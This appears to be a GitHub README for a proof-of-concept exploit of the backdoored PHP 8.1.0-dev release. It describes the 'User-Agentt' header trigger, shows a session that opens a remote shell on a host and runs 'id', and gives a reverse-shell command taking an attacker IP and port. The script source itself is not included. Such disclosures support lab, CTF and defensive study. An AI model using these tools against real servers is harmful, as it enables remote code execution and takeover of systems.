


# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_



PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

_Read full article: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/_


* * * 

## POC Script

This short exploit script [backdoor_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py) uses the backdoor to provide a pseudo system shell on the host.Find it on [Exploit DB](https://www.exploit-db.com/exploits/49933).    

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)            
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- **Vulnerability references**:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 backdoor_php_8.1.0-dev.py
  
Enter the host url:
http://a.b.c.d

Interactive shell is opened on http://a.b.c.d 
Can't acces tty; job crontol turned off.
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

* * * 

## Reverse Shell    

This short exploit script [revshell_php_8.1.0-dev.py](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) gives a reverse shell on target.


Usage:


```
┌──(user㉿kali)-[~/Documents]
└─$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```



Be Curious, Learning is Life ! :smiley:
